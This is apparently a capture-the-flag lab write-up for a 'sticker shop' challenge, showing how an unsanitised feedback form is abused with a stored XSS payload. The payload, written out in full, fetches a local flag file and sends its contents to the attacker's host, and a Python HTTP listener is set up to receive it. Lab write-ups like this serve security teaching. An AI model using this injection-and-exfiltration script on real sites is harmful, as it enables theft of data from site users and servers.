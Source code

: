 ## Target Info

![sticker shop screenshot](./screenshots/sticker-shop01.png)


## Mission
Steal the contents of `http://10.10.197.209:8080/flag.txt`

## Performance

### Go to `http://10.10.197.209:8080/flag.txt`
The result is 401 unauthorized. 

![sticker shop screenshot](./screenshots/sticker-shop02.png)

### Browse the site homepage and discover a “Feedback” page
The feedback page presents a simple text area and “Submit” button, with no input sanitization.

![sticker shop screenshot](./screenshots/sticker-shop03.png)

### Craft the XXS payload
The script will read the local /flag.txt file and send it to the attacker host aka my machine.

    <script>
    fetch('http://127.0.0.1:8080/flag.txt')
      .then(response => response.text())
      .then(data => {
        fetch("http://10.10.15.220:7000/?flag=" + encodeURIComponent(data));
      });
    </script>

What is the code trying to do?
- Fetch the flag: fetch('http://127.0.0.1:8080/flag.txt') makes an HTTP request to http://127.0.0.1:8080/flag.txt to retrieve the contents of “flag.txt.”

- Read the response as text: Once the request succeeds, .then(response => response.text()) extracts the body of the response as plain text (stored in the variable data).

- Send the flag to my machine: finally, the snippet attempts to send that text (data) to http://10.10.15.220:7000/ by adding it as a query parameter in the URL: fetch("http://10.10.15.220:7000/?flag=" + encodeURIComponent(data));
- Using encodeURIComponent(...) ensures special characters (like spaces or symbols) in data are properly encoded so they don’t break the URL.

### Set up the listener (a simple HTTP server) on my machine

    root@ip-10-10-15-220:~# python3 -m http.server 7000
    Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...

The Python HTTP server command prints every incoming GET request (including its full URL and query string) to my terminal so I can see the exfiltrated flag.

### Submit the payload

Copy and paste the payload into the feedback textarea => Click Submit.

![sticker shop screenshot](./screenshots/sticker-shop04.png)

### Find the flag

After submitting the script, the listener will recieve the flag!

![sticker shop screenshot](./screenshots/sticker-shop05.png)

